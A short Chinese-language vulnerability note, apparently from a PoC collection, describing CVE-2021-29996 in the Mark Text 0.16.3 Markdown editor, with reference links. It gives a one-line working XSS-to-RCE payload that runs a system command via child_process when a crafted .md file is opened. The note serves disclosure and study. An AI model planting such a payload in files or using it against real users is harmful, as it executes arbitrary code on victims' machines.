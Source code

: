 # Mark Text Markdown 编辑器RCE（CVE-2021-29996）

Mark Text 0.16.3可以使攻击者任意执行命令。通过打开包含变异跨站脚本（XSS）Payload的.md文件，这可能导致远程执行代码（RCE）。

PoC:

```<style/onload=require('child_process').exec('calc')>

ref:

* https://nvd.nist.gov/vuln/detail/CVE-2021-29996
* https://github.com/marktext/marktext/issues/2548